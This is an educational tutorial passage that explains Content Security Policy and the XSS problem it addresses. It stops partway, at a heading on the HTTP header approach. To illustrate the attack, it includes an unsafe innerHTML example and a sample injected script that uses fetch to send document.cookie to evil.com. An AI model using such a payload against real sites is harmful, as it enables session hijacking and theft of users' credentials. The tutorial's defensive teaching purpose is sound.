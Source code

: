 # Content Security Policy (CSP) Implementation in Browser JavaScript

I'll explain Content Security Policy from first principles, covering what it is, why it exists, how it works, and how to implement it in browser JavaScript. Let's break this down systematically with clear examples.

## What is Content Security Policy?

At its most fundamental level, Content Security Policy (CSP) is a security mechanism that helps prevent various types of attacks, particularly Cross-Site Scripting (XSS) attacks. CSP allows web application developers to control which resources can be loaded and executed on their web pages.

Think of CSP as a security guard for your website that checks the ID of every piece of content wanting to run on your page. Without this guard, any script or resource could potentially execute, even malicious ones.

## Why CSP Exists: Understanding the Problem

To understand CSP, we first need to understand the fundamental problem it solves.

### The Web's Original Security Model

The early web was built on a simple but dangerous premise: any code loaded into a page has full access to that page's content and capabilities. This is known as the "same-origin policy," but it has a critical flaw - it can't distinguish between code the site owner intended to include and malicious code injected by an attacker.

Consider this scenario:

```javascript
// User input field in a website without proper sanitization
const userComment = getUserInput(); // This could contain malicious script
document.getElementById('comments').innerHTML = userComment;
```

If a user submits something like:

```javascript
Nice website! <script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>
```

Without protection, this script executes in the context of your website, potentially stealing user cookies and session data.

## How CSP Works: The Core Mechanism

CSP works by allowing website owners to specify which domains are legitimate sources of executable scripts. The browser then only executes scripts from those white-listed domains, ignoring all others.

### The HTTP Header Approach
